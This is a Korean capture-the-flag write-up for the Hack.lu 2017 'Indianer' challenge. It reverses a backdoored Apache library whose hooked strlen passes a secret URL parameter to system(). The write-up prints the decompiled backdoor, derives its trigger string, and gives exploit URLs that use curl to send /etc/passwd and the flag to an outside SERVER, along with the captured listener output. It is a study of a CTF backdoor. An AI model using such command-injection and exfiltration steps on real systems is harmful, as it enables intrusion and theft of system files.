 # [Crypto] Hacklu 2017 - Indianer

# Description

Try to enter this [Tipi](https://indianer.flatearth.fluxfingers.net/)
[Download](https://flatearth.fluxfingers.net/static/indianer-f7d59dea1f5314f2ddd2d9bd401a996c.zip)

# Analysis

페이지에 들어가면 웹 서버 /에서 리스팅이 되는데, 파일은 index.html을 가지고있다.

index.html은 ubuntu에서 apache를 설치할 때 생성되는 디폴트 페이지이다.

이제 다운받은 파일 `backdoor.so`을 확인해보자.

```c
int __cdecl _libc_start_main(int (__cdecl *main)(int, char **, char **), int argc, char **ubp_av, void (*init)(void), void (*fini)(void), void (*rtld_fini)(void), void *stack_end)
{
  char **v7; // ST28_8
  void (*v8)(void); // ST20_8
  void (*v9)(void); // ST18_8
  void (*v10)(void); // ST10_8
  __int64 (__fastcall *v11)(int (__cdecl *)(int, char **, char **), _QWORD, char **, void (*)(void), void (*)(void), void (*)(void), void *); // ST48_8

  v7 = ubp_av;
  v8 = init;
  v9 = fini;
  v10 = rtld_fini;
  puts("Backdoor installed!");
  v11 = (__int64 (__fastcall *)(int (__cdecl *)(int, char **, char **), _QWORD, char **, void (*)(void), void (*)(void), void (*)(void), void *))dlsym((void *)0xFFFFFFFFFFFFFFFFLL, "__libc_start_main");
  return v11(main, (unsigned int)argc, v7, v8, v9, v10, stack_end);
}
```

\_libc\_start\_main에는 Backdoor installed!라는 문자열을 출력하는 것 뿐이다.

함수 리스트 중 strlen의 소스를 보니 딱봐도 백도어 부분이었다.

```c
__int64 __fastcall strlen(const char *a1)
{
  size_t v1; // rsi
  __int64 result; // rax
  char *v3; // rax
  signed int i; // [rsp+1Ch] [rbp-134h]
  __int64 (__fastcall *v5)(const char *, const char *); // [rsp+20h] [rbp-130h]
  char *v6; // [rsp+28h] [rbp-128h]
  char *v7; // [rsp+30h] [rbp-120h]
  char *s; // [rsp+38h] [rbp-118h]
  char *sa; // [rsp+38h] [rbp-118h]
  char needle[256]; // [rsp+40h] [rbp-110h]
  char v11; // [rsp+140h] [rbp-10h]
  unsigned __int64 v12; // [rsp+148h] [rbp-8h]

  v12 = __readfsqword(0x28u);
  v5 = (__int64 (__fastcall *)(const char *, const char *))dlsym((void *)0xFFFFFFFFFFFFFFFFLL, "strlen");
  if ( !strcmp("GET", a1) )
    ++trigger;
  v1 = (size_t)"ndex.html";
  v7 = strstr(a1, "ndex.html");
  if ( v7 && apr_hook_debug_enabled )
  {
    apr_hook_debug_enabled >>= 8;
    *(v7 - 1) += apr_hook_debug_enabled;
    apr_hook_debug_enabled = 0;
    counter = 0;
    result = v5(a1, "ndex.html");
  }
  else
  {
    memset(needle, 0, sizeof(needle));
    v11 = 0;
    for ( i = 0; i <= 511; i += 9 )
    {
      v1 = (unsigned int)(((_ & 1) + i) % 24 + 97);
      needle[i % 35] = ((_ & 1) + i) % 24 + 97;
    }
    needle[_] = 0;
    if ( trigger & 1 )
    {
      ++_;
      if ( counter <= 1 )
        ++counter;
      if ( _ > 1u )
      {
        v1 = v5(a1, (const char *)v1);
        s = (char *)memmem(a1, v1, needle, 0x22uLL);
        if ( s )
        {
          *s = 0;
          v3 = &s[strlen(needle)];
          sa = v3 + 1;
          if ( *v3 == 61 )
          {
            while ( 1 )
            {
              v1 = 95LL;
              v6 = strchr(sa, 95);
              if ( !v6 )
                break;
              *v6 = 32;
            }
            apr_hook_debug_enabled = system(sa);
          }
        }
      }
    }
    if ( counter > 1 )
      counter = 0;
    result = v5(a1, (const char *)v1);
  }
  return result;
}
```



/뒤에 ndex.html가 들어있으면 안되고  `s = (char *)memmem(a1, v1, needle, 0x22uLL);`의 결과가 1 이상이면 특정 조건에 맞춰 `system(sa);`를 실행해준다. 

needle은 /뒤에 들어가는 값으로써, 백도어에서 needle의 값은 아래의 코드를 통해 계산이 된다.

```C
for ( i = 0; i <= 511; i += 9 )
{
  v1 = (unsigned int)(((_ & 1) + i) % 24 + 97);
  needle[i % 35] = ((_ & 1) + i) % 24 + 97;
}
```

이를 python으로 옮겨 needle의 값을 구해보자.

```Python
_ = 0x6E
needle = [0 for i in range(35)]
for i in range(0,512,9):
  needle[i%35]=chr(((_ & 1)+i)%24+97)

print ''.join(needle)
```

위 코드를 실행하면 파라미터의 값 `dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp`가 나온다.

또한 needle뒤에 =가 들어있으며 그 뒤에는 system()함수에 쓰실 커맨드가 들어가게된다.

주의할 것은 아래의 소스 부분이다.

```c
while ( 1 )
{
  v1 = 95LL;
  v6 = strchr(sa, 95);
  if ( !v6 )
    break;
  *v6 = 32;
}
```

sa의 값이 _가 들어있으면 이를 space로 취급한다.

이렇게 완벽된 공격 백터는 다음과 같다. `https://indianer.flatearth.fluxfingers.net/dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=(시스템 명령어)`

이제 공격을 시작해보자.

# Exploit

## Command Injection

우선 system()명령어를 수행하더라고 결과를 출력해주지는 않기 때문에 중간에 받을 서버가 필요하다.

이를 통해 /etc/passwd를 긁어와보자.

```
# url
https://indianer.flatearth.fluxfingers.net/dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=curl_http://SERVER/$(cat_/etc/passwd)
# Result
Listening on [0.0.0.0] (family 0, port 10101)
Connection from [149.13.33.84] port 10101 [tcp/*] accepted (family 2, sport 52990)
GET /root:x:0:0:root:/root:/bin/bash HTTP/1.1
Host: SERVER:10101
User-Agent: curl/7.55.1
Accept: */*
```

오 긁어와진다.

이를 통해 플래그를 찾기 위해 디렉토리를 열심히 찾던 중 발견하였다.

```
# url
https://indianer.flatearth.fluxfingers.net/dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=curl_http://SERVER/$(cat_/*/*/flag*)
# Result
Listening on [0.0.0.0] (family 0, port 10101)
Connection from [149.13.33.84] port 10101 [tcp/*] accepted (family 2, sport 52992)
GET /FLAGf4ncy_S3CR3T_ex1t HTTP/1.1
Host: SERVER:10101
User-Agent: curl/7.55.1
Accept: */*
```

플래그를 얻었다!



**FLAG{f4ncy_S3CR3T_ex1t}**

